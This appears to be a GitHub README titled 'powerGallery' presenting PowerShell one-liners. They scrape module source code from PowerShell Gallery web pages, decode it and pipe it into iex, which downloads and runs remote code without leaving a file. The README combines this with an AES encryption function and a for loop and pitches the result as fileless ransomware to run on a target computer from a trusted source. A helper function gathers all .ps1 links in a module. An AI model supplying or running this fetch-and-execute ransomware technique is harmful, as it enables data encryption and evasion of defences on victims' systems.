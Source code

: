 # powerGallery

This one liner will load the neccessary files to encrypt a system straight from the trusted powershellgallery.com website.
Used in conjunction with a simple for loop its is now fileless ransomware hosted and executed from your platform

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex
```

Next its as simple as running the commands stored in that module agaisnt the system
In this instance we can encrypt a string, but why stop there? 

```powershell
$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

Combining them into a simple one liner. Together with yet another simple functionality the `for loop` you should be able to see the danger
We could run fileless ransomware on a target computer all from a trusted source

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex;$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

You can use this function to grab the links of all the .ps1 files in a module from the powershell gallery website

```powershell
function Get-Ps1Urls {
    param ([string]$Url)
    try {
        $content = Invoke-RestMethod -Uri $Url
        $regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
        $matches = [regex]::Matches($content, $regex)
        $baseURL = "https://www.powershellgallery.com"
        $ps1Links = @()
        foreach ($match in $matches) {
            $relativeLink = $match.Groups[1].Value
            $fullLink = $baseURL + $relativeLink
            $ps1Links += $fullLink
        }
        return $ps1Links
    }
    catch {
        Write-Error "An error occurred: $_"
    }
}
```

Syntax:

```powershell
$urls = get-Ps1Urls -Url "https://www.powershellgallery.com/packages/PSAES/1.0.0.5"
```


```powershell
$urls = @("https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1")

foreach ($url in $urls){([regex]::Matches((irm "$url"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''}
```












